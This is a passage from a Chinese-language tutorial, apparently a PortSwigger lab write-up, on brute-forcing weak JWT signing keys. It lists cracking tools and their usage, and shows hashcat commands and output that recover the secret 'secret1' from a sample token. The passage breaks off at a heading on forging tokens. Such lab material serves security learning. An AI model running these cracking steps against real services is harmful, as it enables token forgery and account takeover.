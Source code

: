 爆破成功，得到弱密钥，secret1

#### 爆破密钥

对 JWT 的密钥爆破需要在一定的前提下进行：

- 知悉JWT使用的加密算法
- 一段有效的、已签名的token
- 签名用的密钥不复杂（弱密钥）

所以其实JWT 密钥爆破的局限性很大。

相关工具：

[gojwtcrack](https://github.com/x1sec/gojwtcrack)

```
./gojwtcrack -t token.txt -d rockyou.txt
```

[c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker)

```
./jwtcrack [JWT]
```

[jwt_tool](https://github.com/ticarpi/jwt_tool)

```
python3 jwt_tool.py [JWT]
```

[CrackJWTKey](https://github.com/wkend/CrackJWTKey)

```
python3 CrackJWT.py jwt_str keys.txt
```



我这里用 `hashcat`

```bash
ubuntu@VM-4-8-ubuntu:~$ hashcat -a 0 -m 16500 eyJraWQiOiI1NjIwZDI1ZS1mMGI0LTQyODQtOTY3Ni1lZjljOGM2MGU4NWUiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY5MTQxNzAwNX0.vWII1zcKbAtyE49KY4IQ62YpIqzUbJzS-JSOLxJ0qdk jwtpass.list  --force
```

```bash
ubuntu@VM-4-8-ubuntu:~$ hashcat -a 0 -m 16500 eyJraWQiOiI1NjIwZDI1ZS1mMGI0LTQyODQtOTY3Ni1lZjljOGM2MGU4NWUiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY5MTQxNzAwNX0.vWII1zcKbAtyE49KY4IQ62YpIqzUbJzS-JSOLxJ0qdk jwtpass,list  --force --show

eyJraWQiOiI1NjIwZDI1ZS1mMGI0LTQyODQtOTY3Ni1lZjljOGM2MGU4NWUiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY5MTQxNzAwNX0.vWII1zcKbAtyE49KY4IQ62YpIqzUbJzS-JSOLxJ0qdk:secret1
```

签名密钥为 `secret1`

#### 生成jwt
